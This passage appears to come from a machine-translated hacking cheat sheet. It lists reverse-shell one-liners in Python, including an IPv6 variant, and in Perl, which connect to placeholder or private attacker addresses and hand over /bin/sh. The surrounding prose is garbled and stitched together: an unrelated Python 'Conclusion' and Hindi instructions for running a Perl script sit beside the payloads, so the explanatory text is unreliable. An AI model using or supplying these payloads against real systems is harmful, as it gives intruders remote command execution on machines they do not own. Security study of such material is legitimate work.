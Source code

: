 ```python
import requests
```

This allows you to use the functions and classes provided by the library in your code.

### Conclusion

Python is a powerful programming language that is widely used in the field of hacking. Whether you are using Python shells, writing Python scripts, or leveraging Python libraries, Python provides a flexible and efficient way to develop hacking tools and scripts.
```bash
#Linux
export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#IPv6
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```
## पर्ल

Perl एक शक्तिशाली और व्यापक स्क्रिप्टिंग भाषा है जिसे लिनक्स पर उपयोग किया जा सकता है। यह एक इंटरप्रेटेड भाषा है जिसे लाइन-ओरिएंटेड सिंटेक्स के साथ लिखा जाता है। Perl का उपयोग विभिन्न कार्यों को करने के लिए किया जा सकता है, जैसे कि फ़ाइलों को पढ़ना, लिखना, संशोधित करना, नेटवर्क कम्यूनिकेशन, डेटाबेस एक्सेस, और अन्य टास्क।

यदि आपके पास Perl स्क्रिप्ट है और आप उसे लिनक्स शेल में चलाना चाहते हैं, तो निम्नलिखित चरणों का पालन करें:

1. Perl स्क्रिप्ट को एक फ़ाइल में सहेजें, उदाहरण के लिए `script.pl`.

2. फ़ाइल को एक्सीक्यूटेबल बनाने के लिए निम्नलिखित कमांड का उपयोग करें:
   ```
   chmod +x script.pl
   ```

3. अब, आप इसे लिनक्स शेल में चला सकते हैं इसके लिए निम्नलिखित कमांड का उपयोग करें:
   ```
   ./script.pl
   ```

इस तरह, आप अपने Perl स्क्रिप्ट को लिनक्स शेल में सफलतापूर्वक चला सकते हैं।
```bash
perl -e 'use Socket;$i="<ATTACKER-IP>";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IPADDR]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
## रूबी
